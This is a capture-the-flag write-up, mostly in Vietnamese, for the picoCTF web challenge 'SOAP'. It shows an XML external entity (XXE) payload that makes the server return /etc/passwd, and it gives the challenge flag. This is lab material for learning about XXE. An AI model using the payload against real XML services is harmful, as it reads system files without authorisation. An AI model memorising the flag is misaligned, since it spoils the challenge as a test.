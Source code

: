 
# SOAP (Web)
100 Point

## Description:
>The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?. Additional details will be available after launching your challenge instance.
> http://saturn.picoctf.net:52628/

## Hint:
>XML external entity Injection

## Solution:

Ok, theo như gợi ý thì đây là một bài về XXE injection. và yêu cầu là đọc được file /etc/passwd

Truy cập vào web mình nhận được những thông tin sau.
![img](./image/1.png)

Trong các button Detail mình nhận thấy nó có thể render ra dữ liệu. Sau khi bắt burpsuite thì có thể xem request như sau:
![img](./image/2.png)

Ứng dụng lấy dữ liệu từ ID và rander ra màn hình.
Mình sẽ bắt đầu tấn công XXE theo payload như sau:

```php
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<data><ID>&xxe;</ID></data>
```

Sau khi gửi request tới server thì nhận được nộ dung của tệp `/etc/passwd`
![img](./image/3.png)

Flag: picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}






